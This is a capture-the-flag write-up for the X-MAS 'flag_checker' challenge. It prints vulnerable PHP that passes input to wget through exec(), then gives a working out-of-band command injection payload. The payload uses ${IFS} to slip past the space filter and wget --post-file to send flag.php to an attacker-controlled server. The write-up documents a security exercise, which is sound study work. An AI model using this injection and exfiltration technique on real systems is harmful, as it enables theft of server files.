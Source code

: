 ## flag_checker

A source code was provided for this challenge :
```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```
From this code we can see it's a oob comand injection , and we can also see that  the function verify only lowercase , so we can add options to our payload with o we can add options with ${IFS}.

First of all I set up a public aws instance and i also installed  ngix.  because the aws instances gives me a public ip , then I listened ngnix on port 80 and used this payload on the challenge : http://challs.xmas.htsp.ro:3001/?flag=${IFS}-${IFS}--post-file${IFS}flag.php${IFS}1.1.1.1(
in place of 1.1.1.1 I put the public ip of the aws instance). Let's see how this payload works.
First of all i used the $IFS variable, which is the “Internal Field Seperator” with default value ```<space><tab><newline>``` also works fine as a separator for commands , in this way the payload is a oob command injection with whitespace bypass , after i used the comand --post-file (this command is used to send the content of a file using wget) because i needed to get out to wget and send the flag.php to my aws istance.

After i went to my ngnix and intercepted the traffic with  tcpflow , more specifically with this comand " tcpflow -p -c -i eth0 port 80 " and i could see the content of the flag.php

![xmas1](https://user-images.githubusercontent.com/59454895/103447731-6ac10100-4c8f-11eb-9363-1ebdd340e3ae.PNG)

Flag: X-MAS{s0_fL4g_M4ny_IFS_bb69cd55f5f6}
